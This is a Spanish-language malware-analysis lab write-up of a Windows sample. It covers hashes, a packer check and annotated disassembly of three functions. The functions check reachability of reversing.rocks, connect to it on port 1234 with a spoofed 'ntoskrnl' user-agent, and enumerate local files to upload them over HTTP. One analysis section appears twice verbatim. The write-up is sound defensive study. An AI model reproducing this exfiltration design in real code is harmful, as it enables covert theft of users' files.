

## Firma
```
file > sha256,0D6CA46A1D62C6A7FCADB184AEE9F06444E7F80FA6098826B750933E2AF1B393
dos-stub > sha256,9850A5D1895AB183A36BE63E13C714520E8FC7C3012CAF7E418AB1AE1126265F
dos-header > sha256,210B2252926993EB830A688134BC0CD853D923AFEF76F135325FC7C750E0991D
rich-header > sha256,C8411138BF5AFBE0551CC01AF28818CECD9B722FE5E547E11AF43D84A9E73F90
section > .text > sha256,16D715E918C51FB869750496FD8D52F8814DC79118C9A7FABC6F99F7D140CBB5
section > .rdata > sha256,C5A1F138B15FFB27C672BA0F33D012D3B2017CB796E0D7EBB949BDEC7B4FF3CE
section > .data > sha256,D3F192652C950386DD3AF0B1E17094A335CB200E30750869806B3C91491F5929
section > .rsrc > sha256,BE30993728CF7B6046D5C0511706C3272DA7548620BF079E9DC854EF47DFC4E2
manifest > sha256,4BB79DCEA0A901F7D9EAC5AA05728AE92ACB42E0CB22E5DD14134F4421A3D8DF
,
special,
imphash > md5,068859BE3EA70BEFCB551D490B17BBAB

```


## Info General
```
file > name,c:\users\usuario\desktop\lab_02\lab_02\lab_02-1.malware
file > signature,Microsoft Linker 12.0 | Visual Studio 2013
file > sha256,0D6CA46A1D62C6A7FCADB184AEE9F06444E7F80FA6098826B750933E2AF1B393
file > info,size: 6656 bytes, entropy: 5.012
file > type,executable, 32-bit, console
virustotal > score,No se pudo resolver el nombre de servidor o su dirección
stamp > compiler,Mon Jul 13 05:41:48 2015
languages > names,English-US
resources > info,count: 1, size: 381 bytes, file-ratio: 5.72%
manifest > general,name: n/a, description: n/a, severity: asInvoker
file > version,n/a
entry-point > location,0x00001432 (section: .text)
string > url-pattern,http://reversing.rocks/
certificate,n/a
libraries > flag,WININET.dll (Internet Extensions for Win32 Library)
imports > flag,FindFirstFileA | FindNextFileA | GetCurrentProcessId | GetCurrentThreadId | HttpEndRequestA | HttpOpenRequestA | ...
imphash > md5,068859BE3EA70BEFCB551D490B17BBAB
exports,n/a
overlay,n/a
```


## VirusTotal
https://www.virustotal.com/gui/file/0d6ca46a1d62c6a7fcadb184aee9f06444e7f80fa6098826b750933e2af1b393

## ¿Está empaquetado?
└─$ pepack Lab_02-1.malware -d db_packer.txt
packer:                          Microsoft Visual C++ 8
                                                                                                                                                           
Esto indica que el binario no está empaquetado con un packer ofuscador o compresor de código (como UPX, ASPack, etc.), sino que probablemente ha sido compilado con el compilador de Microsoft Visual C++ versión 8 (que corresponde a Visual Studio 2005).                                                                                                                                                      


Usa CRT de Visual C++ 8: Es posible que veamos funciones auxiliares del runtime (__security_init_cookie, __amsg_exit, etc.) al principio del binario.

🪛 Posibles funciones C estándar: Veremos llamadas a funciones de la libc de Visual C++, como memcpy, strncpy, exit, etc.

-----------------------------------------------------
## Flujo de las funciones relevantes del malware



----------------------------------------------------
## FUN_004011a0
[FUN_004011a0](decompilado/FUN_004011a0.md)

La función FUN_004011a0 es el punto de entrada principal del malware, referenciada desde ___tmainCRTStartup. Su función es comprobar la conectividad a internet y ejecutar la lógica maliciosa principal si la conexión con el C2 (Command & Control) está activa.


### 🧠 RESUMEN DEL COMPORTAMIENTO
1️⃣	Comprueba si hay conexión con http://reversing.rocks/ usando InternetCheckConnectionA.  
2️⃣	Si hay conexión, llama a FUN_00401130 (que inicializa WinINet y lanza la exfiltración de datos).  
3️⃣	Si no hay conexión, termina el proceso con exit(1).  

### ANÁLISIS DETALLADO
#### 1. Comprobación de conexión a Internet
```
004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0
```
- Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.
- Si no hay conexión (EAX = 0), salta a exit(1).

#### 2. Ejecución del payload si hay conexión
```
004011b3 CALL FUN_00401130
```
Ya analizamos, esta función [FUN_00401130](FUN_00401130.md):  
- Llama a InternetOpenA, InternetConnectA  
- Inicia comunicación con el servidor remoto  
- Llama a FUN_00401000 → escaneo y exfiltración de archivos [FUN_00401000](FUN_00401000.md)  

#### 3. Finalización del proceso
```
004011ba CALL [exit]
```
- Llama a exit(0) si tuvo éxito
- O a exit(1) si falló
    
### 🔍 ANÁLISIS DETALLADO
#### 1. Comprobación de conexión a Internet
```
004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0
```
- Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.
- Si no hay conexión (EAX = 0), salta a exit(1).

#### 2. Ejecución del payload si hay conexión
```
004011b3 CALL FUN_00401130
```
- Llama a InternetOpenA, InternetConnectA
- Inicia comunicación con el servidor remoto
- Llama a FUN_00401000 → escaneo y exfiltración de archivos [FUN_00401000](FUN_00401000.md) 

#### 3. Finalización del proceso
```
004011ba CALL [exit]
```
- Llama a exit(0) si tuvo éxito
- O a exit(1) si falló

------------------------------------------

## FUN_00401130
[FUN_00401130](decompilado/FUN_00401130.md)

La función FUN_00401130 implementa el inicializador de red del malware, estableciendo una conexión HTTP al servidor de comando y control (C2) y llamando luego a FUN_00401000 —función que ya analizamos, encargada de recorrer archivos locales y exfiltrarlos.

### 🧠 RESUMEN DEL COMPORTAMIENTO

| Acción	| Descripción|
| -- | -- |
| InternetOpenA	| Inicializa WinINet para conexiones HTTP. |
| InternetConnectA	| Se conecta al servidor reversing.rocks en el puerto 1234 (0x4D2). |
| FUN_00401000	| Se ejecuta tras la conexión: recorre archivos locales y los envía por red. |
| InternetCloseHandle	| Cierra conexiones abiertas. |
| exit(1)	| Termina el proceso si falla alguna de las fases. |


## 🔍 ANÁLISIS DETALLADO PASO A PASO
### 1. Inicializa WinINet
```
0040113a PUSH s_ntoskrnl_0040211c  ; "ntoskrnl" como User-Agent
0040113f CALL [InternetOpenA]
```
- Utiliza "ntoskrnl" como user-agent spoofing, simulando una cadena del kernel de Windows.
- Resultado en EDI.

### 2. Comprobación de éxito
```
00401147 TEST EDI, EDI
00401149 JNZ  -> continua si éxito
0040114b PUSH 1
0040114d CALL exit
```
- Si InternetOpenA falla, termina.


### 3. Establece conexión HTTP con C2
```
0040115d PUSH 0x4d2                ; puerto 1234
00401162 PUSH s_reversing.rocks   ; host remoto
00401168 CALL [InternetConnectA]
```
- Se conecta al servidor remoto reversing.rocks, puerto 1234 (puerto no estándar → comportamiento sospechoso).

### 4. Valida conexión
```
00401170 TEST ESI, ESI
00401172 JNZ -> continúa si éxito
00401174 ... exit(1)
```
- Si falla, cierra conexión inicial y termina.

### 5. Llama a la función principal (FUN_00401000)
```
00401185 CALL FUN_00401000
```
- En este punto se lanza la lógica principal: escaneo de archivos + envío de datos.

### 6. Limpieza final
```
00401191 CALL [InternetCloseHandle] ; Cierra handle ESI (conexión al host)
00401194 CALL [InternetCloseHandle] ; Cierra handle EDI (InternetOpenA)
```

### 7. Retorno
```
00401197 XOR EAX,EAX
00401199 POP ESI
0040119a RET
```
- Devuelve 0 (success).

## ☠️ INDICIOS MALICIOSOS  
| Evidencia técnica	| Comportamiento |
| -- | -- |
| InternetOpenA, InternetConnectA	| Se conecta a un servidor externo. |
| "ntoskrnl" como user-agent	| Intenta parecer un componente del sistema. |
| Conexión a reversing.rocks:1234	| C2 probablemente malicioso. |
| Llama a función que escanea archivos y los envía	| Exfiltración de datos. |


## 🔄 FLUJO GENERAL
```
[InternetOpenA ("ntoskrnl")] → [InternetConnectA ("reversing.rocks", 1234)] 
  └─> Si éxito → [FUN_00401000: Enumeración + exfiltración]
        └─> [FindFirstFileA → HttpOpenRequestA → InternetWriteFile ...]
  └─> Luego cierra todo y retorna 0
```

## ✅ Conclusión

Esta función sirve como fase de inicialización de red del malware, y es claramente parte de una infraestructura de C2 (comando y control):
- El binario establece una conexión a internet y sube archivos locales a un dominio externo.
- Emplea API legítimas de Windows para ello, lo que lo hace más evasivo frente a antivirus.

----------------------------------------------------------

## FUN_00401000.md
[FUN_00401000.md](decompilado/FUN_00401000.md)


Esta función (FUN_00401000) representa un **comportamiento de tipo dropper o exfiltrador de información**, con uso explícito de la API de Windows para recorrer archivos y hacer peticiones HTTP usando WININET.DLL. Vamos a desglosarla paso a paso:

### 📌 RESUMEN GENERAL DE LO QUE HACE

- Usa FindFirstFileA y FindNextFileA para recorrer archivos de una carpeta.
- Crea una conexión HTTP con HttpOpenRequestA y la envía con HttpSendRequestExA.
- Usa InternetWriteFile para enviar el nombre (o contenido) de archivos a través de la conexión HTTP.
- Finaliza la petición con HttpEndRequestA, cierra el handle HTTP y los handles de archivos.

### 🧠 ANÁLISIS DETALLADO  
**🔹 Inicio típico de función C compilada**
```
00401000 PUSH       EBP
00401001 MOV        EBP,ESP
00401003 AND        ESP,0xfffffff8
00401006 SUB        ESP,0x144
```
Reserva stack y alinea el puntero de pila.

**🔹 Inicialización y primer acceso a archivos**
```
0040100f LEA        EAX,[ESP + 0x10]      ; puntero a estructura WIN32_FIND_DATA
00401013 MOV        ESI,ECX               ; copia ECX (parámetro oculto stdcall)
00401015 PUSH       EAX                   ; arg para FindFirstFileA
00401016 PUSH       DAT_00402128          ; patrón de búsqueda (probable "*.*")
0040101b CALL       [FindFirstFileA]
```

> [!IMPORTANT]  
> Está **recorriendo archivos en alguna carpeta.**

**DAT_00402128** contiene el patrón, probablemente "*" o "C:\\algo\\*".

**🔹 Comprobación si se encontró algún archivo**
```
0040102b TEST       EDI,EDI
0040102d JZ         LAB_00401118
```

Si FindFirstFileA falla, se hace exit(1).

--------------------
### 🌐 Inicio de comunicación HTTP
```
0040104e CALL       [HttpOpenRequestA] ; crea la petición HTTP (GET, POST, etc.)
0040105f CALL       [HttpSendRequestExA] ; envía cabecera HTTP
```
Parámetros previos incluyen:
- "text/html" como tipo de contenido.
- Otros datos de la URL en DAT_004020fc, DAT_00402100...

> [!IMPORTANT]  
> Está iniciando una conexión HTTP POST/GET a un servidor remoto, probablemente para enviar datos de los archivos encontrados.**

-----------------------------
###  🧾 Envía contenido a través de InternetWriteFile
```
MOV        EBX,[WININET.DLL::InternetWriteFile]
CALL       EBX
```
Este patrón aparece tres veces:
- Una vez por cada archivo encontrado.
- Incluye:
    - Nombre del archivo
    - Contenido asociado (posiblemente no el contenido del archivo, sino solo metadatos).

-----------------------------------

###  🔁 Bucle de búsqueda de archivos
```
CALL       [FindNextFileA]
JLE        -> rompe el bucle si ya no hay más archivos
JG         -> sigue al siguiente archivo
```

--------------------------------------------
### 🧹 Limpieza y cierre
```
HttpEndRequestA
InternetCloseHandle
FindClose
RET
```

-----------------------------------------------
###  ❌ Comportamiento si falla FindFirstFileA:
```
00401118 PUSH 0x1
CALL [MSVCR120.DLL::exit]
```
Termina el proceso con exit(1).

--------------------------------------------
### 🕵️ INDICIOS DE COMPORTAMIENTO MALICIOSO
| Evidencia	 | Implicación |
| -- | -- |
| FindFirstFileA y FindNextFileA	| Recorre el sistema de archivos |
| HttpOpenRequestA, HttpSendRequestExA	| Establece comunicación HTTP |
| InternetWriteFile	| Envía datos al servidor |
| HttpEndRequestA + InternetCloseHandle	| Limpieza de conexión |
| MSVCR120.DLL::exit(1) en error	| Finaliza discretamente si falla algo |

🔎 Posible uso  
- Este binario recorre archivos en el sistema y los exfiltra a un servidor remoto a través de peticiones HTTP.
- Es un comportamiento clásico de un infostealer o dropper que recopila información antes de descargar más payloads.


----------------------------------------------------

